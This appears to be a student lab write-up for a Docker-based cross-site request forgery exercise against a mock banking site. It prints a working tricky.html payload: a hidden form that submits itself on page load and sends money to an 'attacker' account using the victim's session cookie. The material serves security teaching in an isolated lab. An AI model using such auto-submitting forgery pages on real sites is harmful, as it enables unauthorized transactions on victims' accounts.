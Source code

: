 # CSRF

[Document for CSRF Lab](https://app.box.com/s/wl3kmlkiuzjn9wvnyv65bgbt1xt8f4mw)

## Preparation

Go to security_lab/csrf on command prompt and enter `docker-compose up --build`

Then, in the upper prompt, enter `docker exec -it client sh -l` to execute the Ubuntu of client.

![cmd_client](/Week%208/CSRF/img/cmd_client.png)

Will the Ubuntu of client, use `cat /tmp/hosts >> /etc/hosts` to append hostname configuration lines from /tmp/hosts to the end of /etc/hosts file.

Execute tail command to make sure those 2 lines exist in the /etc/hosts file `tail -n5 /etc/hosts`

![tail](/Week%208/CSRF/img/tail.png)

## 4.2 Conducting the Transaction

### a

Fire up Firefox inside the web-client container, enter <http://mysite.com/login.php> to login with credentials (admin, password).

![login](/Week%208/CSRF/img/login.png)

After successfully login, enter amount and the receiver’s name, click Transfer to proceed doing the transaction.

![logged](/Week%208/CSRF/img/logged.png)

Transfered successed then open network tab on developer tool to view request/response headers. Watchout the cookie

![cookie](/Week%208/CSRF/img/cookie.png)

## 4.3 Cross-Site-Request-Forgery

By observing page with Inspector in Developer Tool, the attacker forge the request by creating a hidden form that will be submitted automatically when loaded. This form is stored as tricky.html hosted on <http://darksite.com> that setup by the attacker.
Attacker can send an email with a link that whenever user clicks the link, an amount of money from admin’s account will be transferred to the attacker.

Enter <http://darksite.com/tricky.html> to simulate the mentioned scenario.
Explain the reason why attacker can succeed with this forgery request.

Now look at the source code of tricky.html. As you can see, the attacker are trying to use CSRF to attack the opening <http://mysite.com> from user. Using the current cookie to bypass the web_server to counterfeit the transfer which will transfer to attacker 50 values just by a URL.

```html
<!-- malicious.html -->
<!DOCTYPE html>
<html>
<body>
  <h1>CSRF Attack Demo</h1>
  <form id="csrf-form" action="http://mysite.com/transfer.php" method="POST">
    <input type="hidden" name="to" value="attacker">
    <input type="hidden" name="amount" value="50">
    <button type="submit" name="transfer" value="transfer">
  </form>
  <script type="text/javascript">
    // Submit the form automatically on page load
    document.getElementById("csrf-form").submit();
  </script>
</body>
</html>
```

Even the cookie are the same due to the CSRF attack!

![attackercookie](/Week%208/CSRF/img/attackercookie.png)

## 4.4. Trying to attack directly without forgery request

### a

Start an independent docker container by executing:

`docker run -p 6080:80 --net=net-10.9.0.0 -v ${HOME}/shm:/dev/shm dorowu/ubuntu-desktop-lxde-vnc`

### b

Open browser then enter <http://localhost:6080> in the address bar to access GUI desktop of the newly created docker container.

### c

Open firefox inside the docker container GUI, enter http://darksite.com/tricky.html. How does the
transaction finish? Explain your observation.